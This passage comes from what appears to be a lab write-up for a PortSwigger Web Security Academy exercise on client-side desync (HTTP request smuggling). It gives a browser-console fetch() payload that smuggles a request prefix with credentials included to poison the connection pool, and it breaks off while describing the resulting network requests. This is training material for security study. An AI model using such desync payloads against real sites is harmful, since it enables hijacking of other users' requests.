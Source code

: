 - Switch to the **Console** tab and use `fetch()` to replicate the desync probe you tested in Burp:

```js
fetch('https://0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net/', {
    method: 'POST',
    body: 'GET /404pls HTTP/1.1\r\nX-Foo: x', // malicious prefix
    mode: 'cors', // ensures the connection ID is visible on the Network tab
    credentials: 'include' // poisons the "with-cookies" connection pool
}).catch(() => {
        fetch('https://0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

> Note: we're intentionally triggering a CORS error to prevent the browser from following the redirect, then using the `catch()` method to continue the attack sequence.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226142715.png)

On the **Network** tab, you should see two requests:

- The main request, which has triggered a CORS error:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-20/images/Pasted%20image%2020230226142804.png)

- A request for the home page, which received a 404 response:
